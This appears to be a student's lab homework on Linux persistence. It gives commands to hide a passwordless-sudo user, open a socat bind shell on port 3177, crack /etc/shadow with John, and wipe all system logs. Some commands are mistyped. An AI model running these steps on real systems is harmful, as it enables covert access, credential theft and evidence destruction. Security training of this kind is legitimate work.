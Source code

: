 ## Submission for Unit 6 Advanced Bash Homework

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
- useradd --system --no-create-home sysd

Give your secret user a password. 
- sudo passwd sysd

Give your secret user a system UID < 1000.
- useradd --system --no-create-home sysd

Give your secret user the same GID
- useradd --system --no-create-home sysd

Give your secret user full sudo access without the need for a password.
- sudo visduo
- sysd ALL=(ALL) NOPASSWD:ALL

Test that sudo access works without your password
- sudo -l
```bash
Your BASH commands go here
``` 

## Allow ssh access over port 2222.
nano /etc/ssh/sshd_config
change #Port 22 to Port 2222 in nano.
systemctl restart ssh
```bash
Your BASH commands go here
``` 

Note the IP address of this system:
- ifconfig
Exit the root accout.
- exit
SSH to the machine using your sysd account and port 2222
- ssh sysd@172.17.149.133 -p 2222
Use sudo to switch to the root user
- sudo su root

### Create a backdoor with socat
- Install socat
  - sudo apt install socat
- Run Socat command in the background
  - socat TCP4-Listen:3177,fork EXEC:/bin/bash
- Explain each part of the `socat` command:
  - socat TCP4-Listen:3177,fork EXEC:/bin/bash
  TCP4 is a keyword that specifies a certain address type. The command listens on the 3177 port, and accepts the TCP connection with an IP version of 4. Forks a new child process for each connection. It executes the program /bin/bash.
  - socat STDIO TCP4:<Your-VM-IP-address>:3177
  	STDIO reads and writes to standard input and output. This socat transfers data between STDIO and a TCP4 connection to port 3177 of the host, in which case is the IP address of the VM. 
- Exit the SSH session
  - exit
- Test socat connection from your local machine (after the second socat command)
  - ls 
- Close the `socat` connection.
  - exit

## Crack _all_ the passwords
Ssh back to the system using your sysd account
- ssh sysd@172.17.149.133 -p 2222
- Use John to crack the entire /etc/shadow file
    - cd Documents
    - ls -a
    - john -rules -wordlist=.pass_list.txt
    - john -salts:-2 /ets/shadow

## Cover your tracks
- Use socat and a for loop to clear all system logs.
- socat STDIO TCP4:192.168.47.136:3177
for log in $(ls /var/log); do echo '' > /var/log/${log} ;done 
